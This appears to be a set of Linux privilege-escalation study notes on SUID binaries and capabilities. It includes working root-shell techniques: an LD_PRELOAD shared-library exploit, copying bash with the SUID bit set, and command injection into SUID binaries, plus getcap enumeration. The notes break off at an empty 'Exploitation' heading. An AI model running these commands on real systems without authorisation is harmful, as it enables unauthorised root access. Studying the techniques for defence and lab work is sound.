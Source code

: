 Analyze the binary using strings:
```sh
    strings /path/to/suid-binary
```
    Look for calls to system(), execve(), or references to other commands.

Exploiting SUID Binaries

    Symlink & Environment Variable Exploit (as seen in suid-env2)
        Override a command that the SUID binary relies on by defining a custom function and exporting it.
        When the SUID binary executes the command, it runs the attacker’s function instead, leading to privilege escalation.

    SUID Binary Execution with Controlled Input
        If an SUID binary allows executing external commands, an attacker can inject a malicious command.

`/path/to/suid-binary "/bin/sh"`

LD_PRELOAD Exploit (Library Hijacking)

    If an SUID binary allows setting the LD_PRELOAD environment variable, an attacker can preload a malicious shared library:

```sh
echo 'void _init() { setgid(0); setuid(0); system("/bin/bash"); }' > exploit.c
gcc -shared -o /tmp/exploit.so -fPIC exploit.c
sudo LD_PRELOAD=/tmp/exploit.so /path/to/suid-binary
```
SUID Shell Injection (Direct File Execution)

    Copy bash to a writable directory and set the SUID bit:
```sh
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
/tmp/bash -p
```



## Capabilities 

For the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes: privileged processes (whose effective user ID is 0, referred to as superuser or root), and unprivileged processes (whose effective UID is nonzero). Privileged processes bypass all kernel permission checks, while unprivileged processes are subject to full permission checking based on the process’s credentials (usually: effective UID, effective GID, and supplementary group list). Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as capabilities, which can be independently enabled and disabled. Capabilities are a per-thread attribute.


* This would not come up with searching SUID's, so it is important to check!


* In command prompt type: `getcap -r / 2>/dev/null`
* From the output, notice the value of the “cap_setuid” capability.
* Having the capability `=ep` means the binary has all the capabilities.
Exploitation
